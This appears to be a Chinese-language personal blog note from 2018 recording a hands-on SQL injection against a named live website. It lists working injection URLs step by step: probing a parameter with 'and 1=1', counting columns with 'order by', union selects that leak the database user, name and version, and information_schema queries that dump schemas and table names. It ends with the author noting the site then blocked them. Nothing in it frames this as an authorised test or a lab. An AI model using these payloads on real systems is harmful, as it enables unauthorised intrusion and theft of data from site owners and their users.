 #实战：SQL注入 #

#### 2018/9/12 15:12:28    ####
----------

* 找到被入侵的网站  
	`http://unisscan.cn/list.php?id=1`
* 后面接and 1=1 返回主页，股从旁边找其他网页注入点  
	`http://unisscan.cn/list.php?lei=246`
* 通过 and 1=1,1=2出现不同结果，故此处注入，使用order by x --   (后面接空格)  

    	http://unisscan.cn/list.php?lei=246 order by 31-- 
* 查出31个字段，判断显示的位置  

    	http://unisscan.cn/list.php?lei=246 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31-- 
	![](images\real_sql1.PNG)  
	得知2,8,11可以输出显示
* 获取基本信息  
    	http://unisscan.cn/list.php?lei=246 and 1=2 union select 1,user(),3,4,5,6,7,database(),9,10,version(),12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31-- 

	![](images\real_sql2.PNG)

* 可以玩information_schema  
	根据sql注入技巧

    	select group_concat(schema_name) from information_schema.schemata
    	select schema_name from information_schema.schemata limit 0,1  #查询数据库
    	select table_name from information_schema.tables where table_schema=database() limit 0,1;  #查询表
    	select column_name from information_schema.columns where table_name='users' limit 0,1;  #查询列

	以下url：  
暴库

    	http://unisscan.cn/list.php?lei=246 and 1=2 union select 1,group_concat(schema_name),3,4,5,6,7,database(),9,10,version(),12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31 from information_schema.schemata -- 
爆表

    	http://unisscan.cn/list.php?lei=246 and 1=2 union select 1,2,3,4,5,6,7,group_concat(table_name),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31 from information_schema.tables where table_schema='uniscan' -- 
然后，禁止我进入这个网站了，不知道是什么原因